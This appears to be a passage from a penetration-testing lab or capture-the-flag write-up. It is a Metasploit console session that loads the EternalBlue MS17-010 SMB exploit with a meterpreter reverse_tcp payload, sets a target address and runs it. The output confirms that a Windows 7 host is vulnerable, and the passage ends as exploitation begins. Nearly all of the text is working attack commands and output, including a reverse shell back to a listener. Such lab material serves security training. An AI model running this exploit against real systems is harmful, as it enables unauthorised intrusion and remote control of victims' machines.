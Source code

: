 ```bash
   28    \_ target: Execute payload (x64)             .                .        .      .
   29    \_ target: Neutralize implant                .                .        .      .


Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'

[msf](Jobs:0 Agents:0) >> use 0
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machi
                                             nes.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.48.156.99     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set rhosts 10.201.35.94
rhosts => 10.201.35.94
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> exploit -z
[-] Handler failed to bind to 10.48.156.99:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] 10.201.35.94:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.201.35.94:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
/usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/recog-3.1.17/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.201.35.94:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.201.35.94:445 - The target is vulnerable.
[*] 10.201.35.94:445 - Connecting to target for exploitation.
```